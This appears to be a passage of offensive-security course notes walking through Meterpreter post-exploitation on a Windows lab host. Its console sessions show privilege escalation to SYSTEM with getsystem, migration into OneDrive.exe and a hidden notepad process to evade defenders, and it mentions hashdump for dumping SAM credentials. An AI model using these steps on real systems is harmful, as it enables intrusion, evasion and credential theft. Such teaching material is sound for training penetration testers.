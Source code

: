Now for post-exploitation work. For several post-exploitation features, we need administrative privileges to execute them. Metasploit contains the command getsystem, which attempts to automatically elevate our permissions to NT AUTHORITY\SYSTEM. It uses various techniques using named pipe impersonation and token duplication. In the default settings, getsystem uses all available techniques (shown in the help menu) attempting to leverage SeImpersonatePrivilege1 and SeDebugPrivilege.

```console
> idletime
User has been idle for: 11 mins 41 secs

> getuid
Server username: ITWK01\luiza

> getsystem

> getuid
Server username: NT AUTHORITY\SYSTEM
```

To avoid suspicion or a defender closing our process, we can use migrate to move the execution of our Meterpreter payload to a different process. We should note that we are only able to migrate into processes that execute at the same (or lower) integrity and privilege level than that of our current process. In the context of this example, we already elevated our privileges to NT AUTHORITY\SYSTEM so our choices are plentiful.

```console
m> ps
 PID   PPID  Name                   Arch  Session  User  
 7964  8796  met.exe                x64   0        ITWK01\luiza                  C:\Users\luiza\met.exe
 7112  5276  OneDrive.exe           x64   1        ITWK01\offsec                 C:\Users\offsec\AppData\Local\Microsoft\OneDrive

m> migrate 7112
[*] Migrating from 7964 to 7112...
[*] Migration completed successfully.

m> ps

m> getuid
Server username: ITWK01\offsec
```

Instead of migrating to an existing process or a situation in which we won't find any suitable processes to migrate to, we can use the execute Meterpreter command. This command provides the ability to create a new process by specifying a command or program.

```console
m> execute -H -f notepad
Process 2716 created.

> migrate 2716
```

Meterpreter offers a variety of other interesting post-exploitation modules such as hashdump, which dumps the contents of the SAM database or screenshare, which displays the target machine's desktop in real-time.
